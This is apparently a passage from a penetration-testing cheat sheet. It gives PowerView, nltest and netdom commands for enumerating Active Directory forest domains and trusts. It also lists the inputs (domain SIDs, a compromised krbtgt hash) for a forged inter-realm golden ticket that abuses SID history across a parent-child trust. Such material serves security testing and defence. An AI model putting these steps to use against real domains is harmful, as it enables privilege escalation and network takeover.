 Get all domains in a fores:

```
PV2 > Get-NetForestDomain [-Forest megacorp.local]
PV3 > Get-ForestDomain [-Forest megacorp.local]
```

Enum trusts for current domain via `nltest` and .NET:

```
Cmd > nltest /trusted_domains
PS > ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

Enum trusts via Win32 API and LDAP (PowerView):

```
PV2 > Get-NetDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust -API [-Domain megacorp.local] | ft

PV2 > Get-NetDomainTrust -LDAP [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust [-Domain megacorp.local] | ft
```

Build domain trust mapping:

```
PV2 > Invoke-MapDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrustMapping [-Domain megacorp.local] | ft
```




## sIDHistory/ExtraSids Hopping

* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)
* [http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/](http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)

Abusing Bidirectional ParentChild trust between **child.megacorp.local ⟷ megacorp.local**.

Check if SID filtering is enabled for a trust:

```
Cmd > netdom.exe trust child.megacorp.local /domain:megacorp.local /quarantine
SID filtering is not enabled for this trust. All SIDs presented in an
authentication request from this domain will be honored.
```

For creating a cross-trust golden ticket (forged inter-realm TGT) we'll need:

1. Child domain FQDN (`child.megacorp.local`);
2. Name of the child domain's DC machine account and its RID (`DC01$`, `1337`);
3. SID of the child domain (`S-1-5-21-4266912945-3985045794-2943778634`);
4. SID of the parent domain (`S-1-5-21-2284550090-1208917427-1204316795`);
5. Compomised krbtgt hash from the child domain (`00ff00ff00ff00ff00ff00ff00ff00ff`);
6. ???
7. PROFIT.
